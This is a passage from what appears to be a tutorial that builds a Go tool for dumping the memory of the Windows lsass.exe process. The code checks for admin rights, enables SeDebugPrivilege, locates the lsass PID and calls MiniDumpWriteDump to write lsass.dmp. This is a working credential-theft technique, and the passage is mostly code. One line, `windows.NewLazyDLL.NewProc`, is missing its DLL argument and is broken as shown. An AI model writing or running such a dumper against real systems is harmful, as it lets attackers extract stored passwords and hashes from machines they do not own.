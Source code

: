 ```go
    syscall.FILE_ATTRIBUTE_NORMAL,
    0,
  )

  MiniDumpWriteDump := windows.NewLazyDLL.NewProc("MiniDumpWriteDump")

  // Dump memory
  ret, _, err := MiniDumpWriteDump.Call(
    uintptr(procHandle), // process handle
    uintptr(pid), // process id
    uintptr(fHandle), // file handle
    0x00061907,
    0,
    0,
    0,
  )

  if (ret == 0) {
    os.Remove(dump_path)
    return err
  }

  return nil
}
```

As you see, this piece of code firstly opens the given PID to get a handle to the process, then it creates a file in which dump is writen and finally calls `MiniDumpWriteDump` which writes process memory to file handle.

At this point we just have to create the `main()` function of every Golang script and adding some extra output logging:

```go
func main(){
  fmt.Println("Checking permissions...")
  check, err := CheckAdmin()
  if err != nil {
    log.Fatal(err)
  }

  if check == false {
    log.Fatal(errors.New("An error has ocurred, please run as admin!"))
  }

  fmt.Println("Enabling SeDebugPrivilege...")
  err = EnableSeDebugPrivilege()
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("Searching lsass.exe process...")
  pid, err := FindLsassPid()
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("PID found:", pid)

  fmt.Println("Dumping lsass.exe process...")
  err = DumpLsass(pid, "lsass.dmp")
  if err != nil {
    log.Fatal(err)
  }
```